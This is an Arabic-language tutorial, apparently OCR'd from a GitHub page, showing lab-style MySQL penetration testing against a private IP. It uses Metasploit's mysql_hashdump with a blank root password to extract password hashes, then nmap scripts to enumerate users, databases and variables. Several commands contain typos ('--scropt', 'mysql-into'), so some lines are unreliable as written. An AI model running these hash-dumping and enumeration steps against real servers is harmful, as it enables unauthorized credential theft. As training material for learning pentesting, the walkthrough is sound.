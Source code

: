 طبعا عندنا موديول ثاني يجيب لك الهاش حق الـ MySQL وليس حق النظام
[msfconsole] عشان نفتح الفريم وورك
والان نحدد الموديول
[use auxiliary/scanner/mysql/mysql_hashdump]
ونشوف ايش المتغيرات المطلوبه عن طريق الامر هذا
[show options]
نلاحظ طالب مننا RHOST , USERNAME , PASSWORD
نعطيه القيم لهذي المتغيرات
[set RHOSTS 192.168.179.3]
[set USERNAME root]
[set PASSWORD ""]
[exploit] or [run]

الان طلعنا كل الهاشات الموجوده حقت قاعدة البيانات

الان بنجرب سكربت nmap 
وظيفته انه يشوف هل بيقبل ان الروت يكون بدون باسورد وبيدخلني او لا
[nmap --scropt=mysql-empty-password -p 3306 192.168.179.3]

وفيه كذالك سكربت اخر مثل الاصدار و معلومات اخرى
[nmap --script=mysql-into -p 3306 192.168.179.3]

وفيه كذالك سكربت يعطيك اليوزرات 
[nmap --scropt=mysql-users --script-args="mysqluser='root',mysqlpass=''" -p 3306 192.168.179.3]
ونشوف انه عطانا كل اليوزرات الموجوده على mysql

السكربت الي بعده يطلع لك وش الداتا بيس الموجوده
[nmap --scropt=mysql-databases --script-args="mysqluser='root',mysqlpass=''" -p 3306 192.168.179.3]

وكذالك فيه سكربت وظيفته يطلع لك المتغيرات حقت قاعدة البيانات 
[nmap --script=mysql-variables --script-args="mysqluser='root',mysqlpass=''" -p
3306 192.168.179.3]

السكربت هذا ماقدرت اشرحه عربي ف جبت لك ريسورس تقرا عن السكربت
طبعا الموقع هو موقع الاداة الرسمي
[https://nmap.org/nsedoc/scripts/mysql-audit.html]

[nmap --script=mysql-audit --script-args
"mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/n
selib/data/mysql-cis.audit'" -p 3306 192.168.179.3]
--------------------------------------------------------------------------------------------

@s4cript | @cyberhub | @@0xNawaF1
